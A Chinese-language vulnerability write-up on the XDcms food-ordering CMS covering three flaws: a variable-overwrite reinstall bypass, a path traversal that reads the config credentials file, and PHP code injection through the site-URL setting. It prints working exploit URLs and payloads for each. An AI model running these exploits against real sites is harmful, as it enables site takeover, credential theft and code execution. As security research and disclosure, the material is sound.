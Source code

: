 XDcms订餐网站管理系统，主要使用Php+Mysql+Smarty技术基础进行开发，采用OOP（面向对象）方式进行基础运行框架搭建，集成在线订餐、团购、积分商城、优惠券、新闻、在线订单、在线支付、生成订单短信/邮箱通知、点评、Google电子地图、问答、并与支付宝、Dz论坛、短信平台接口完美整合等功能于一体的完全开源的高级订餐网站管理系统。作为国内最受欢迎的PHP类订餐网站系统之一，XDcms在不断提升用户服务、提高产品质量的同时更加注重用户体验。从系统研发至今，历经了数百次的更新修改后，网站的架设与管理变得更加轻松及便捷。

##### 环境搭建

##### 全局变量的覆盖

###### 漏洞分析

/ install/index.php

<br/> 代码的意思是把传入的变量数组遍历赋值,比如 $_GET[‘a’] 赋值为 $a。

传入一个insLockfile判断是否存在。问题在这

<br/> 将直接跳过判断进行安装。<br/> 此时安装的sql数据库文件会记录在 /data/config.inc.php<br/> 利用poc:找到可外连的 mysql (自己去爆破)

###### 漏洞复现

直接访问此地址

```
http://127.0.0.1/xdcms_dc_v1.0/install/index.php?insLockfile=1&amp;step=4&amp;dbhost=localhost&amp;dbname=xdcms&amp;dbuser=root&amp;dbpwd=123456&amp;dbpre=c_&amp;dblang=gbk&amp;adminuser=xdcms&amp;adminpwd=xdcms
```

##### 后台任意源码读取

漏洞文件:system\modules\xdcms\template.php<br/> 在xdcms 目录下看到 template 文件,目测是后台模板编辑。所以首先登陆后台，登陆<br/> http://127.0.0.1/xdcms_dc_v1.0/index.php?m=xdcms&amp;c=template

<br/> 访问：<br/> http://127.0.0.1/xdcms_dc_v1.0/index.php?m=xdcms&amp;c=template&amp;f=edit&amp;file=../../../data/config.inc.php

##### 后台getshell

###### 漏洞分析

/ system/modules/xdcms/ setting.php

<br/> 又是用foreach来数组遍历附值。这里的$info[‘siteurl’]是没有经过处理就直接写进来了。

###### 漏洞复现

访问：/index.php?m=xdcms&amp;c=setting

测试我就只加了这个phpinfo<br/> poc：

```
');?&gt;&lt;?php phpinfo();?&gt;http://127.0.0.1/
```

http://127.0.0.1/xdcms_dc_v1.0/index.php?m=xdcms&amp;c=setting#

> 
申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，
所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.


